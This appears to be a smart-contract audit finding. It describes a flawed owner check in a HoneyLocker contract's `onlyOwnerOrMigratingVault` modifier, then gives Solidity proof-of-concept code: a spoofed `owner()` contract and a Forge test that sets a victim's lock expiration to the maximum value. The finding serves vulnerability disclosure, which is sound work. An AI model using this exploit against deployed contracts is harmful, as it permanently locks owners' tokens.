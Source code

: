 The problem with this is that an adversary can create a malicious contract implementing an `owner()` function that returns the current owner of the HoneyLocker and bypasses this check.

```solidity
modifier onlyOwnerOrMigratingVault() {
    if (msg.sender != owner() && owner() != Ownable(msg.sender).owner()) revert Unauthorized();
    _;
}
```

This modifier is used to protect the `depositAndLock()` function. So, an attacker can call it setting the biggest possible `_expiration` value, making it impossible for the legit owner to withdraw their tokens as they will never expire.

### Proof of Concept

This test shows how an attacker can modify any expiration and set it to its maximum value.

The victim won't be able to withdraw their tokens later, as they will never expire.

- Copy the `ExpirationAttacker` contract to `test/HoneyLocker.t.sol`
- Copy the `test_depositExpirationAttack` test to `test/HoneyLocker.t.sol` inside the `HoneyLockerTest` test
- Run `forge test --mt test_depositExpirationAttack`

```solidity
contract ExpirationAttacker {
    address immutable victim;

    constructor(address _victim) {
        victim = _victim;
    }

    function owner() external returns (address) {
        return victim;
    }
}
```

```solidity
function test_depositExpirationAttack() external prankAsTHJ {
    ExpirationAttacker attacker = new ExpirationAttacker(THJ);

    vm.stopPrank();
    vm.startPrank(address(attacker));

    assertEq(honeyLocker.expirations(address(HONEYBERA_LP)), 0);

    uint256 maxExpiration = type(uint256).max;
    honeyLocker.depositAndLock(address(HONEYBERA_LP), 0, maxExpiration);

    assertEq(honeyLocker.expirations(address(HONEYBERA_LP)), maxExpiration);
}
```

## Recommendations
